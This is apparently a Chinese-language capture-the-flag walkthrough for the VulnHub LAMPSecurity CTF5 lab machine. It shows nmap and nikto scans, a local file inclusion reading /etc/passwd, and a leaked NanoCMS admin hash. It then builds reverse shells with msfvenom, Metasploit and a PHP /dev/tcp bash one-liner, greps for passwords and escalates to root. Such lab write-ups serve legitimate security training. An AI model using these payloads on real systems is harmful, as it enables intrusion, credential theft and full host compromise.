 ```yaml
---
title: 'VulnHub_02_LAMPSECURITY: CTF5'
date: 2022-02-17
tags: VulnHub
categories: Technology
---
```


download:https://www.vulnhub.com/entry/lampsecurity-ctf5,84/

扫描之后发现是：`http://192.168.188.131`

`nmap -sV < 要扫描的目标ip地址>`*

```sh
┌──(root💀kali)-[/home/kali]
└─# nmap -sV 192.168.188.131                                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-16 01:26 EST
Nmap scan report for 192.168.188.131
Host is up (0.0059s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp   open  smtp        Sendmail 8.14.1/8.14.1
80/tcp   open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp  open  pop3        ipop3d 2006k.101
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
143/tcp  open  imap        University of Washington IMAP imapd 2006k.396 (time zone: -0500)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
901/tcp  open  http        Samba SWAT administration server
3306/tcp open  mysql       MySQL 5.0.45
MAC Address: 00:0C:29:44:6B:32 (VMware)
Service Info: Hosts: localhost.localdomain, 192.168.188.131; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.79 seconds
                                                                 
```

使用nikto扫下：

```sh
└─# nikto -h 192.168.188.131
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.188.131
+ Target Hostname:    192.168.188.131
+ Target Port:        80
+ Start Time:         2022-02-16 01:29:54 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.6 (Fedora)
+ Retrieved x-powered-by header: PHP/5.2.4
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.6 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ /index.php: PHP include error may indicate local or remote file inclusion is possible.
^[[B^[[B^[[B+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Server may leak inodes via ETags, header found with file /phpmyadmin/ChangeLog, inode: 558008, size: 22676, mtime: Mon Aug 20 22:59:12 2029
+ OSVDB-3092: /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Cookie SQMSESSID created without the httponly flag
+ OSVDB-3093: /mail/src/read_body.php: SquirrelMail found
+ OSVDB-3093: /squirrelmail/src/read_body.php: SquirrelMail found
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3092: /phpmyadmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8724 requests: 0 error(s) and 26 item(s) reported on remote host
+ End Time:           2022-02-16 01:30:19 (GMT-5) (25 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

可以看到有LFI/RFI

`http://192.168.188.131//index.php?page=../../../../../../../../../etc/passwd%00`

`root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin news:x:9:13:news:/etc/news: uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin gopher:x:13:30:gopher:/var/gopher:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin nscd:x:28:28:NSCD Daemon:/:/sbin/nologin tcpdump:x:72:72::/:/sbin/nologin dbus:x:81:81:System message bus:/:/sbin/nologin rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin polkituser:x:87:87:PolicyKit:/:/sbin/nologin avahi:x:499:499:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin apache:x:48:48:Apache:/var/www:/sbin/nologin ntp:x:38:38::/etc/ntp:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin openvpn:x:498:497:OpenVPN:/etc/openvpn:/sbin/nologin rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin torrent:x:497:496:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin haldaemon:x:68:68:HAL daemon:/:/sbin/nologin gdm:x:42:42::/var/gdm:/sbin/nologin patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash andy:x:502:502:Andrew Carp:/home/andy:/bin/bash loren:x:503:503:Loren Felt:/home/loren:/bin/bash amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash `

搜下底部关于nanocms的洞，：https://vulners.com/openvas/OPENVAS:100141

有个是密码散列信息泄露，允许不受限制地访问：/data/pagesdata.txt

```
a:12:{s:8:"homepage";s:1:"1";s:10:"links_cats";a:4:{s:7:"sidebar";a:2:{i:0;i:1;i:1;i:4;}s:11:"other-pages";a:0:{}s:14:"top-navigation";a:2:{i:0;s:1:"1";i:1;s:1:"4";}s:12:"Footer-Right";a:2:{i:0;s:1:"1";i:1;s:1:"4";}}s:5:"slugs";a:2:{i:1;s:4:"home";i:4;s:7:"contact";}s:6:"titles";a:2:{i:1;s:4:"Home";i:4;s:7:"Contact";}s:10:"slug_count";i:11;s:8:"settings";a:3:{s:19:"index-last-modified";i:1234513760;s:18:"def-template-areas";a:4:{i:0;s:12:"website name";i:2;s:14:"website slogan";i:3;s:16:"below navigation";i:4;s:16:"copyright notice";}s:18:"def-template-links";a:2:{i:0;s:14:"top-navigation";i:1;s:12:"Footer-Right";}}s:13:"active-tweaks";a:2:{i:0;s:7:"deutsch";i:1;s:19:"language-pack-tweak";}s:11:"lang-select";s:7:"english";s:6:"seourl";s:1:"0";s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";s:7:"version";s:4:"v_4f";}
```

得到admin的密码的hash解密为shannon

登进去后直接newpage，使用msfvenom反弹shell：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.188.129 lport=4444 -f raw
```

![image-20220216211315347](VulnHub02/image-20220216211315347.png)

```sh
msf > use exploit/multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.188.129
msf exploit(handler) > set lport 4444
msf exploit(handler) > run
```

或者直接：

```
<?php
system("bash -i >& /dev/tcp/192.168.188.129/4444 0>&1");
?>
--------
nc -lp 4444
```

通过以下命令在home下找root密码：

```
grep -R -i password /home/* 2> /dev/null
```

![image-20220216214354852](VulnHub02/image-20220216214354852.png)

```sh
bash-3.2$ su
standard in must be a tty
bash-3.2$ python -c 'import pty;pty.spawn("/bin/sh")'
sh-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-3.2$ su
su
Password: 50$cent

[root@localhost public_html]# whoami
whoami
root
[root@localhost public_html]# 
```

进去直接su的时候提示：`standard in must be a tty`，直接：`python -c 'import pty;pty.spawn("/bin/sh")'`

